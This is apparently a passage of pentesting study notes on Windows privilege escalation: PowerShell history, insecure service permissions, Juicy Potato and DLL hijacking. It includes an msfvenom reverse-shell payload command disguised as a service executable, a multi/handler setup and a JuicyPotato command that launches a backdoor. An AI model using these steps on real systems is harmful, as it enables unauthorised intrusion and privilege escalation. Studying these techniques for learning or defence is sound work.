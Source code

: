 - Check the history with first, apply `show hidden file`
- Goto user folder `AppData/Roaming/Microsoft/Windows/Powershell/PSReadline` 
- Open the `ConsoleHost_History` File with notepad

### Insecure Service Permissions

We can use tool like powerUp, AccessChk to automate check. When Identified the vuls service, Attacker modify the service config and restart the service

Attack vector:
- Service Binary Replacement
- Unquoted Service Path Exploitation
- DLL Hijacking in Services
- Weak Permissions on Service Configuration (Registry)
- Service Permission Manipulation
- Insecure Service Restart Behavior
- Path Interception (Environment Variables)

**Steps**:
- Use `msfvenom -p windows/meterpreter/reverse_tcp .... -f exe > "FileZilla Server.exe"` to generate payload
- Setup the `multi/handler` -> set InitialAutoRunScript `post/windows/manage/migrate` 
- Replace the payload with actual exe
- Restart the service   

### Juicy Potato

Juicy Potato is a Windows privilege escalation exploit that leverages specific vulnerabilities related to DCOM (Distributed Component Object Model) and the way Windows manages the communication between processes and services. 

**StepS:**
- After gain initial access, we can upload the backdoor.exe (msfvenom, reverse_tcp to Kali) and `Juicy_Potato.exe`
  - [Github repo](https://github.com/ohpe/juicy-potato)
- Setup multi/handler for the payload above
- Back to first meterpreter -> shell -> `JuicyPotato.exe -l 5555 -p <path_to_backdoor> -t * -c <cls_id>`

`Cls_id` Input is the COM that we targeted
- [Definition](https://learn.microsoft.com/en-us/windows/win32/com/clsid-key-hklm)
- [How to found correct id](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

### DLL Hijacking

DLL Hijacking is a privilege escalation technique where an attacker manipulates the way windows application load DLL to execute malicious code with elevated privilege

Understand Default Search Order: Windows has a predefined order for searching for DLLs. It generally starts with the application's directory, followed by the system directories, and then other system-defined paths.

Common locations include:
- The application's current working directory.
- The System32 or SysWOW64 directories.
- Directories listed in the PATH environment variable.
- Other directories included in the search order.
